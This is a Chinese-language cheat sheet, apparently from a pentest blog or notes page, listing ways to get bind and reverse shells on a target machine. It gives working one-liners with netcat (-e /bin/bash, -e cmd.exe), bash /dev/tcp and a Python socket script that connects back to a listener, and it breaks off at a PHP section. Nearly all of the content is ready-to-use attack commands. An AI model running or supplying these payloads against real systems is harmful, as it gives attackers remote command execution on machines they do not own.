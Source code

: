 ### 正向反弹：

靶机：

```
nc -lvp 8099 -e /bin/bash 或者  nc -lvp 8099 -e cmd.exe
```

连接机上输入

```
nc 靶机ip 8099
```

正向反弹是目标机先执行nc命令，然后kali上再进行nc监听，即可反弹shell。

###  反向反弹

**方法1：**

靶机

```
nc 监听地址 监听端口 -e /bin/bash 
nc 监听地址 监听端口 -e cmd.exe
```

监听：

```
nc -Lvp 8099
```

 **方法2：bash**

```
bash -i >& /dev/tcp/127.0.0.1/8099 0>&1
```

监听：

```
nc -Lvp 8099
```

此方法在ubuntu下不会反弹成功，CentOS可以反弹成功。

**方法3 :python**

靶机反弹shell的命令如下：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('监测的IP',监测的端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

**方法4：php**

**（\**注意php反弹shell的这些方法都需要php关闭safe_mode这个选项，才可以使用exec函数。\**）**

监听：
